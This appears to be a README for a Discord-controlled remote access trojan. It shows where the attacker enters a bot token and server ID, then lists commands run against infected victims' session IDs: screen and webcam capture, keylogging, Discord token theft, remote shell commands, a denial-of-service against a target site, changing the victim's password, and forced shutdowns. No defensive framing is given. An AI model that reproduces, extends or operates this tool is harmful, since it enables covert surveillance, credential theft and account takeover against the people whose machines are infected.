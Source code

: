with discord rat, you can send and receive data without establishing a IP connection between you and the target device
change the server ID and token.
you can manage many sessions with the ID given to users
```
serverid = ""  #Your Server ID
token = ""  #Your Bot Token
```

example
```
wq.sessions
wq.get_screen LhngKv-s30OXbri/I2aD"
wq.get_webcam LhngKv-s30OXbri/I2aD
wq.altf4 LhngKv-s30OXbri/I2aD"
wq.click LhngKv-s30OXbri/I2aD 10 10"
wq.write LhngKv-s30OXbri/I2aD hello world"
wq.open_link LhngKv-s30OXbri/I2aD https://github.com"
wq.dos LhngKv-s30OXbri/I2aD https://targetsite.com
wq.get_token LhngKv-s30OXbri/I2aD
wq.keylogger LhngKv-s30OXbri/I2aD
wq.search LhngKv-s30OXbri/I2aD wqlsz github
wq.press LhngKv-s30OXbri/I2aD win
wq.command LhngKv-s30OXbri/I2aD netstat -n
wq.restart LhngKv-s30OXbri/I2aD
wq.shutdown LhngKv-s30OXbri/I2aD
wq.shutdownpc LhngKv-s30OXbri/I2aD
wq.notepad LhngKv-s30OXbri/I2aD
wq.change_passwrod LhngKv-s30OXbri/I2aD wqlsz wq1234
```




---commands----

altf4           
change_password 
clear      
click           
command         
delete_channel  
dos             
get_screen      
get_token       
get_webcam      
help            
keylogger       
notepad         
open_link       
press           
restart         
search          
sessions        
shell           
shutdown        
shutdownnpc     
write
